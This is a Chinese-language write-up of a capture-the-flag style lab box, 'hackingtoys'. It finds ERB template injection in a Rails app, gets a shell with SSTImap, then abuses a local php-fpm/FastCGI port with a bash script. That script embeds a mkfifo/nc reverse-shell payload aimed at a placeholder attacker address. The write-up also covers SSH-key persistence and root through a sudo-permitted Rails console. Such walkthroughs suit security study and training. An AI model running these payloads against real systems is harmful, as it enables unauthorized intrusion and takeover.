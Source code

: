 ![[Pasted image 20240913144412.png]]

# 端口扫描

`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`

通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问https://xx.xx.xx.xx:3000,会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![[Pasted image 20240913144903.png]]

我们随意点击一个超链接，如图所示
![[Pasted image 20240913145108.png]]
接下来我们搜索一下，看看有没有什么设备是没有的
![[Pasted image 20240913145228.png]]
注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)
我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容
![[Pasted image 20240913145806.png]]
发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下

`nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h`     
`usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]`
                 
和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'`

`[+] Erb plugin has confirmed injection with tag '*'`
`[+] SSTImap identified the following injection point:`

  `Query parameter: message`
  `Engine: Erb`
  `Injection: *`
  `Context: text`
  `OS: x86_64-linux`
  `Technique: render`
  `Capabilities:`

    `Shell command execution: ok`
    `Bind and reverse shell: ok`
    `File write: ok`
    `File read: ok`
    `Code evaluation: ok, ruby code`
`……`

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell`

![[Pasted image 20240913150617.png]]
Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![[Pasted image 20240913151003.png]]
发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：

`#!/bin/bash`

`PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"`
`FILENAMES="/dev/shm/index.php" # Exisiting file path`

`HOST=$1`
`B64=$(echo "$PAYLOAD"|base64)`

`for FN in $FILENAMES; do`
    `OUTPUT=$(mktemp)`
    `env -i \`
      `PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \`
      `SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \`
      `cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT`

    `cat $OUTPUT`
`done`

不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![[Pasted image 20240913151823.png]]
![[Pasted image 20240913151856.png]]
## dodi

进入之后常规检查sudo -l,发现如下内容
![[Pasted image 20240913151954.png]]

让我们看看这个脚本是怎么个事
![[Pasted image 20240913152040.png]]
这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console

`sudo /usr/local/bin/rvm_rails.sh new rrc`

因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行

`sudo /usr/local/bin/rvm_rails.sh console`

现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![[Pasted image 20240913152558.png]]

有两种方式可以执行root命令：
1.
![[Pasted image 20240913153015.png]]
2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![[Pasted image 20240913153534.png]]



